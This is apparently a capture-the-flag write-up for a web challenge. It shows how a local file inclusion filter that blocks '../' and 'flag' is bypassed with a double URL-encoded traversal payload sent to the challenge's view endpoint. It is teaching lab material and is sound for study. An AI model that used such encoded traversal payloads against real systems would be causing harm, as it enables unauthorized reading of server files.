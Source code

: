 # Secure Archive - Web Security Challenge

## Challenge Information
- **Category:** Web Application Security
- **Points:** TBD
- **Difficulty:** Medium
- **Target:** https://safearchive.cyberbattle.info/

## Challenge Description
A Local File Inclusion (LFI) vulnerability challenge that tests understanding of URL encoding bypass techniques. The application implements security filters that can be circumvented using double URL encoding.

## Vulnerability Overview
The web application suffers from a **Local File Inclusion (LFI)** vulnerability with attempted input filtering that can be bypassed through **Double URL Encoding**.

## Security Filters
The application blocks the following parameters:
- `../` (directory traversal)
- `flag` (direct flag access attempts)
- `..\` (Windows-style directory traversal)

## Filter Bypass Technique
- **Single URL encoding**: Gets detected and blocked by security filters
- **Double URL encoding**: Bypasses the security filters successfully

## Solution Process

### Step 1: Reconnaissance
Check `robots.txt` to discover hidden directories and files:
```
https://safearchive.cyberbattle.info/robots.txt
```

This reveals the location of the flag file in `/secret_data/flag.txt`

### Step 2: Initial Attempt (Blocked)
Direct attempt using single encoding:
```
https://safearchive.cyberbattle.info/view?template=../secret_data/flag&format=txt
```
❌ **Result**: Blocked by security filters

### Step 3: Double URL Encoding Bypass
Apply double URL encoding to bypass filters:
```
https://safearchive.cyberbattle.info/view?template=%252E%252E%252F%2573%2565%2563%2572%2565%2574%255F%2564%2561%2574%2561%252F%2566%256C%2561%2567&format=txt
```
✅ **Result**: Successfully bypasses filters and retrieves flag

## URL Encoding Breakdown
```
Original: ../secret_data/flag
Single:   ..%2Fsecret_data%2Fflag  
Double:   %252E%252E%252F%2573%2565%2563%2572%2565%2574%255F%2564%2561%2574%2561%252F%2566%256C%2561%2567
```

## Key Learning Points
- **Filter Evasion**: Security filters may only check for single-encoded patterns
- **Double Encoding**: Encoding already encoded data can bypass detection
- **Reconnaissance**: Always check `robots.txt` for sensitive file locations
- **LFI Exploitation**: Directory traversal vulnerabilities allow access to unauthorized files

## Screenshots
- `1. Homepage.png` - Application homepage
- `2. Sample Report.png` - Normal application functionality
- `3. Security In Place.png` - Security filter activation
- `4. robots.png` - robots.txt discovery
- `5. Double Encoding.png` - Successful bypass demonstration

## Tools Used
- Web browser for manual testing
- URL encoding tools
- Burp Suite (optional for request manipulation)

## Flag Format
`CBCTF{...}`
